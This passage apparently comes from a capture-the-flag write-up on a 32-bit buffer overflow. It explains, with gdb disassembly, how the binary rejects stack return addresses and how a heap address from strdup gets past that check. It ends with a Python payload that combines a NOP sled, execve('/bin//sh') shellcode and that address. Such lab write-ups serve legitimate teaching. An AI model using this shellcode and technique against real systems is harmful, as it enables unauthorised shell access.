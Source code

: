 The program exits "normally" with an error value.

It means something happened but the exploit has not been executed. Why ?

```shell
  (...)
  0x080484fb <+39>:    and    $0xb0000000,%eax          # $eax = $0xb0000000 & $eax
  0x08048500 <+44>:    cmp    $0xb0000000,%eax          # compare $0xb0000000 and $eax
  0x08048505 <+49>:    jne    0x8048527 <p+83>          # if != jump to *p+83
  0x08048507 <+51>:    mov    $0x8048620,%eax           # 0x8048620: "(%p)\n"
  0x0804850c <+56>:    mov    -0xc(%ebp),%edx
  0x0804850f <+59>:    mov    %edx,0x4(%esp)
  0x08048513 <+63>:    mov    %eax,(%esp)
  0x08048516 <+66>:    call   0x80483a0 <printf@plt>    # call printf("(%p)\n", ptr)
  0x0804851b <+71>:    movl   $0x1,(%esp)
  0x08048522 <+78>:    call   0x80483d0 <_exit@plt>     # call _exit(1)
  (...)
```

As the return address starts with "0xb", which is an address in the stack, the program exits. The program checks the return address is not an address in the stack memory.

We have to find another fake return address.

While looking [this schema](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png), we learn that heap memory contains variables allocated with `malloc()`.
The syscall `strdup` calls `malloc`. As ASLR is disabled, addresses are not randomized.

```bash
gdb-peda$ pdisas p
#   0x08048538 <+100>:    call   0x80483e0 <strdup@plt>
# => 0x0804853d <+105>:   leave
# put a breakpoint just after strdup
gdb-peda$ b *0x0804853d

# print $eax content, which contains the pointer return by strdup
gdb-peda$ p $eax
> $1 = 0x804a008
```

As this address does not stars with `0xb`, we can use it to pass the protection.

6. Get the shell

Lets try

```bash
# python -c 'print(nopSled + shellcode + retAddress)' > /tmp/exploit
(python -c 'print(
  "\x90" * 52 +
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" +
  "\x08\xa0\x04\x08"
)' ; cat) | ~/level2

(stdin) id
> Segmentation fault (core dumped)
```
